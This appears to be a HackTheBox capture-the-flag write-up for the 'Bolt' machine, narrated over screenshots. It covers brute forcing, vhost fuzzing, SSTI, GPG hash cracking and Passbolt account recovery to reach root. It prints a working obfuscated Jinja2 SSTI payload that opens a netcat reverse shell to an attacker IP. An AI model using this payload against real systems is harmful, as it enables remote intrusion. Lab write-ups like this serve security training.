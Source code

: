```yaml
---
title: Bolt HackTheBox Writeup
tags: [writeup,hackthebox,passbolt,adminlte3,gpg]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/2.png)

## Enumeration
We put the subdomain in the **/etc/hosts** file and access the web resource.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/3.png)

We access the resource through port 443 and find a **passbolt** deployed.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/4.png)

We need invitation for used.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/5.png)


## Exploitation
We use hydra on the "*bolt.htb/admin*" authentication panel and obtain the administrator credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/6.png)

We access with the credentials and go to the mail.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/7.png)

We see that they are having a conversation in which they have uploaded a Docker image to the server.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/8.png)

We do virtualhosting with wfuzz, we find these subdomains:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/9.png)

### Roundcube

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/10.png)

### Create account bolt.htb
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/11.png)

Download image.tar
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/12.png)

We unzip the files, we find a **SQLite** database.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/15.png)

### Hash cracking

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/16.png)

We use **grep** to search for the *invitation code* and find a file that exposes it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/17.png)

We register an account and use the invitation code.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/18.png)

We also have access to email

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/19.png)

In testing, we found that it is vulnerable to SSTI (Server-Side Template Injection).

#### PoC 

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/36.png)

#### Result for mail

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/35.png)

We insert the payload in the name change and apply the changes.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.XX.XX 443 >/tmp/f')|attr('read')()}}
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/20.png)

We will receive an email, so we will set a **netcat** to listen and click on it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/21.png)

##### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/22.png)

We do a reconnaissance and find some credentials in the file "*passbolt.php*". 

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/23.png)

We tested these credentials on the user "eddie" and they work!

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/24.png)


## Privilege Escalation

.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/27.png)

We use **gpg2john** and get the hash in the file to crack it with **john**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/28.png)

##### Cracking with John

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/29.png)

Searching for information, we found through Google this link on how to recover a "**Passbolt**" account with the *GPG key* and *password*. Sound familiar?

https://community.passbolt.com/t/recover-account-on-a-network-without-email/1394


We access the database with the credentials found above.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/30.png)

Select the user "**Eddie**", take his *ID* and *token*, this will be the data we need to create the cue recovery link.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/33.png)

#### Recovery account
```html
https://passbolt.bolt.htb/setup/recover/ID/TOKEN
```

Access the link, load the *gpg file* and now enter your *password* (the one we cracked earlier with **john**).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/31.png)

Once inside, we can see the root password.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/32.png)

We authenticate as the **root** user and read the flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bolt/34.png)




